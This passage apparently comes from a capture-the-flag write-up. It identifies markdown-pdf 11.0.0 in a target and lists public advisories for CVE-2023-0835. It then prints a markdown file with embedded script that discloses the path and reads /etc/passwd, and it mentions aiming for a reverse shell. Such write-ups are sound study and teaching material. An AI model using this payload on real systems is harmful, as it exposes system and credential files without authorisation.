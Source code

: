Giving it a real markdown file reveals some more information about what's under the hood:

![](./assets/3000-conversion.png)

Note the title "markdown-pdf 11.0.0".

Exploit-db returns no hits, but the internet does:

- [https://fluidattacks.com/advisories/relsb/](https://fluidattacks.com/advisories/relsb/)
- [https://github.com/advisories/GHSA-qghr-877h-f9jh](https://github.com/advisories/GHSA-qghr-877h-f9jh)
- [https://nvd.nist.gov/vuln/detail/CVE-2023-0835](https://nvd.nist.gov/vuln/detail/CVE-2023-0835)
- [https://security.snyk.io/vuln/SNYK-JS-MARKDOWNPDF-5411358](https://security.snyk.io/vuln/SNYK-JS-MARKDOWNPDF-5411358)

There seems to be a local file read vulnerability with this software. If we craft a markdown file to read files on the victim file system we should be able to learn more... and maybe even get the software to run a reverse shell for us.

We create exploit.md with the contents as per the poc in the Snyk link above:

```
<script>
    // Path Disclosure
    document.write(window.location);
    // Arbitrary Local File Read
    xhr = new XMLHttpRequest;
    xhr.onload=function(){document.write((this.responseText))};
    xhr.open("GET","file:///etc/passwd");
    xhr.send();
</script>
```
